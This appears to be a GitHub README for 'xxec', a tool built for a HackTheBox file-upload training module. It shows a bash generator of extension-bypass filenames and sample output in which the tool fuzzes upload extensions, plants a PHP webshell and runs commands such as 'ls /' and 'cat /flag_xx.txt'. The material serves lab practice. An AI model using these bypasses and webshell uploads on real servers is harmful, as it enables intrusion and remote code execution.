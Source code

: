 # xxec
A command-line tool for exploiting XXE injection via file uploads

I built this tool to automate XXE injection for the **HackTheBox - File Upload Attacks** module. 

The script fuzzes for file extensions that have code execution, uploads a webshell and then allows the user to issue commands directly from the command line. 

## Arguments

- `-H`: Host (IP of the server)
- `-p`: Port (Port on which the web application is running)
- `-w`: Wordlist (Wordlist containing extensions to fuzz, items in the wordlist must be of the form `.ext`)
- `-c`: Check Directory (Directory where uploaded files are placed, you should omit the first `/` from the path as the script handles it automatically as shown in usage example below)

## Wordlist Generation

If you are coming here from the **File Upload Attacks - Skills Assessment** on **HTB**, you should make use of the wordlist generator provided within the module. 

Adjusted for the tool:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' '.phar' '.phtml'; do
        echo "$char$ext.svg" >> extensions-svg.txt
        echo "$ext$char.svg" >> extensions-svg.txt
        echo "svg$char$ext"  >> extensions-svg.txt
        echo "svg$ext$char"  >> extensions-svg.txt
    done
done
```

## Usage

```shell
python3 xxec.py -H SERVER -p PORT -w extensions.svg -c 'path/to/directory/'

[TEST 1/36] Trying extension: ..php.svg
[UPLOAD SUCCESS] test..php.svg -> Checking execution...
Check URL: http://SERVER:PORT/path/to/directory/test..php.svg
Response Status: 404

[TEST 2/36] Trying extension: .php..svg
[UPLOAD SUCCESS] test.php..svg -> Checking execution...
Check URL: http://SERVER:PORT/path/to/directory/test.php..svg
Response Status: 404

[TEST 3/36] Trying extension: .svg..php
[UPLOAD SUCCESS] test.svg..php -> Checking execution...
Check URL: http://SERVER:PORT/path/to/directory/test.svg..php
Response Status: 404

[TEST 4/36] Trying extension: ..phps.svg
[UPLOAD SUCCESS] test..phps.svg -> Checking execution...
Check URL: http://SERVER:PORT/path/to/directory/test..phps.svg
Response Status: 404

[TEST 5/36] Trying extension: .phps..svg
[UPLOAD SUCCESS] test.phps..svg -> Checking execution...
Check URL: http://SERVER:PORT/path/to/directory/test.phps..svg
Response Status: 404

[TEST 6/36] Trying extension: .svg..phps
[UPLOAD SUCCESS] test.svg..phps -> Checking execution...
Check URL: http://SERVER:PORT/path/to/directory/test.svg..phps
Response Status: 403

[TEST 7/36] Trying extension: ..phar.svg
[UPLOAD SUCCESS] test..phar.svg -> Checking execution...
Check URL: http://SERVER:PORT/path/to/directory/test..phar.svg
[CODE EXECUTION] SUCCESS: http://SERVER:PORT/path/to/directory/test..phar.svg

[!] Detected execution. Deploy attack payload? (y/n): y
[UPLOAD SUCCESS] shell..phar.svg -> Checking execution...
[+] Webshell uploaded: http://SERVER:PORT/path/to/directory/shell..phar.svg
Enter command to execute (or type 'exit' to stop): ls /
[COMMAND OUTPUT]

bin
boot
dev
etc
flag_xx.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
Enter command to execute (or type 'exit' to stop): cat /flag_xx.txt
[COMMAND OUTPUT]

HTB{}
Enter command to execute (or type 'exit' to stop): 
```
